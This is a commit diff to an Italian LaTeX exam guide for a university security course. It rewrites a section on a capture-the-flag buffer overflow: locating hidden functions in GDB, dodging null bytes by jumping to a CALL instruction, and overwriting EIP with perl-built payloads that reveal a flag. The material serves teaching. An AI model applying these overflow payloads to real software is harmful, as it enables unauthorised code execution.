

Before and after one commit to Cruciat/Sicurezza-Informatica-T, a LaTeX document (guida_esame.tex): two parts of pages 37 and 38 of 77 before the commit and part of page 38 of 78 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Esercizio binary exploit

```diff
--- a/guida_esame.tex
+++ b/guida_esame.tex
@@ -1196,21 +1213,33 @@
 		\end{lstlisting}
 	\end{enumerate}
 
-	\subsection{Scenario 2: Esecuzione di funzioni nascoste (secret\_function)}
-	\textbf{Contesto e Obiettivo:} Il programma alloca una \texttt{struct} in memoria che contiene prima un buffer e poi un \textit{function pointer} (un puntatore che indica alla CPU quale funzione eseguire). Questo puntatore richiama normalmente una funzione lecita. Il nostro obiettivo è "sbrodolare" dal buffer per sovrascrivere il puntatore, sostituendolo con l'indirizzo di una funzione "segreta" presente nel codice ma mai richiamata.
+	\subsection{Scenario 2: Esecuzione di funzioni nascoste multiple}
+	\textbf{Contesto e Obiettivo:} Il programma vulnerabile contiene diverse funzioni di testing o derisione (es. "Ugh.", "Nope") e una sola funzione risolutiva che stampa la flag. L'obiettivo è sovrascrivere l'EIP per eseguire la funzione corretta.
 
 	\begin{enumerate}
-		\item \textbf{Fase 1: Trovare l'indirizzo della funzione segreta}
-		È sufficiente aprire GDB e chiedere la lista di tutte le funzioni caricate in memoria e i relativi indirizzi.
-		\begin{lstlisting}[language=bash]
-			(gdb) info functions              # Cerca nell'elenco la funzione segreta
-		\end{lstlisting}
-		\textit{Nota:} GDB mostrerà direttamente l'indirizzo (es. \texttt{0x565561b9}). Il comando \texttt{p nome\_funzione} si usa solo in alternativa se la lista è troppo lunga e si vuole filtrare.
-
-		\item \textbf{Fase 2: Calcolo Offset e Iniezione}
-		Trovato l'offset del buffer tramite la solita bisezione (tentativi con lunghezze crescenti), si inverte l'indirizzo trovato al passo 1 in formato Little-Endian e lo si accoda al padding:
-		\begin{lstlisting}[language=bash]
-			./vulnerable_binary $(perl -e 'print "A"x[OFFSET] . "\xb9\x61\x55\x56"')
+		\item \textbf{Fase 1: Trovare le funzioni candidate}
+		Esegui \texttt{info functions} per mappare lo spazio di indirizzamento, oppure fai il \texttt{disas} delle funzioni principali per vedere quali sub-routine vengono invocate. Appuntati le funzioni sospette (es. \texttt{trythis}, \texttt{trythat}, \texttt{maybethisone}).
+
+		\item \textbf{Fase 2: Il Trucco della \texttt{CALL} (Bypass Bad Characters)}
+		Se prendi l'indirizzo diretto di una funzione da \texttt{info functions} (es. \texttt{0x08049300}) potresti accorgerti che contiene un Null Byte (\texttt{\textbackslash x00}). Se provi a iniettarlo, la stringa verrà troncata e l'exploit fallirà!
+		\begin{nota}[Pro-Tip d'Esame: Saltare alla Call]
+			Invece di saltare all'inizio della funzione desiderata, fai il \texttt{disas} della funzione che la invoca (es. \texttt{disas check}). Cerca l'istruzione \texttt{call}:
+			\begin{lstlisting}[language=bash]
+				0x080491fe <+88>: call 0x8049300 <maybethisone>
+			\end{lstlisting}
+			Usa l'indirizzo dell'istruzione \texttt{call} (in questo caso \texttt{0x080491fe}). Non contiene byte nulli! Saltando lì, la CPU eseguirà comunque la chiamata alla funzione corretta aggirando i filtri di bash o C.
+		\end{nota}
+
+		\item \textbf{Fase 3: Test Iterativo delle Funzioni}
+		Costruisci il payload invertendo l'indirizzo scelto in formato Little-Endian (\texttt{\textbackslash xfe\textbackslash x91\textbackslash x04\textbackslash x08}) e provalo.
+		\begin{lstlisting}[language=bash]
+			# Test funzione 1 ("maybethisone")
+			(gdb) run $(perl -e 'print "A"x212, "\xfe\x91\x04\x08"')
+			# Output: Ugh. -> Sbagliata.
+
+			# Test funzione 2 ("trythat") usando l'indirizzo della sua CALL (es. 0x080491ed)
+			(gdb) run $(perl -e 'print "A"x212, "\xed\x91\x04\x08"')
+			# Output: SEC{C0ngr4tsUfoundIT} -> Corretta!
 		\end{lstlisting}
 	\end{enumerate}
 
```
Also changed, not shown: guida_esame.tex (53 more changed lines), 1 other file.
